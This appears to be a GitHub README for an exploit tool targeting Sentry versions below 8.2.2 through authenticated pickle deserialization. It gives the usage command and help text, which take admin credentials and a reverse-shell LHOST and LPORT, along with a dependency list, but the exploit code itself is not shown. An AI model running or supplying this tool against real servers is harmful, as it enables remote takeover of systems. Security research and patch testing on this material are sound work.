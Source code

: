 # Sentry-Authenticated-Remote-Code-Execution
## Sentry &lt; 8.2.2 Pickle Deserialization to RCE

<h4> Discovered By : Clement Berthaux (SYNACKTIV) </h4>
<h4> Advisory Link : https://doc.lagout.org/Others/synacktiv_advisory_sentry_pickle.pdf </h4>
<h4> Exploit DB Link :  </h4>

<h3> Usage : python exploit.py --url `http://<URL>/auth/login/sentry/` -U `username` -P `password` -l `LHOST` -p `LPORT`</h3>
  

usage: exploit.py [-h] [-U U] [-P P] [-l L] [-p P] [--url URL]

Sentry < 8.2.2 Authenticated RCE

optional arguments:
  -h, --help  show this help message and exit
  -U U        Sentry Admin Username / Email
  -P P        Sentry Admin Password
  -l L        Rev Shell LHOST
  -p P        Rev Shell LPORT
  --url URL   Sentry Login URL
              
              
![alt text](https://github.com/[mohinparamasivam]/[Sentry-Authenticated-Remote-Code-Execution]/blob/[main]/sentry_exploit.png?raw=true)              
              


# Dependencies

<h4>pip install requests</h4>
<h4>pip install bs4</h4>
<h4>pip install argparse</h4>

